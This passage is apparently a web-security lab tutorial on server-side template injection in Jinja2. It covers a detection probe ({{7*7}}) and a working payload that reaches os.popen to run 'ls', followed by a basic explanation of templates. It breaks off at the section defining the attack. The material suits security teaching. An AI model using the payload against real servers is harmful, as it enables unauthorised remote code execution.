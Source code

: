 ##
##

Remote Code Execution on Jinja - SSTI Lab

###################################
https://secure-cookie.io/attacks/ssti/
###################################

Tags:

    web attack ssti injection rce remote code execution 

Table of contents

    TL;DR - show me the fun part❗
    What is template❓
    What is server side template injection❓
    How is that exploitable❓
    Remote Code execution 💥
    Show me the source code of the vulnerable app 👀
    What tool did you use in the video❓
    Questions❓
    References

TL;DR - show me the fun part❗

    Open the app

    Discover template injection –>

    {{7*7}}

    Execute “ls” command –>

    {{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}

    Get paid, maybe?

Sorry, your browser doesn't support embedded videos.
What is template❓

In simple words, it’s an HTML file that contains variables. Something like

<h1>{{greeting}}!</h1>

Depending on the template type, a variable greeting is defined between {{ }}.

If we pass “hello username” to greeting, then the HTML would be

<h1>hello username!</h1>

A common example is, when a user login into app, the app fetch the name of the user and pass it to greeting variable. The user will see

hello username!

So templates are used by backend app to render data dynamically into HTML.

Depending on the backend programming language, there are different types of web template. Such as Jinja2(Python), Twig(PHP), FreeMarker(Java).
What is server side template injection❓
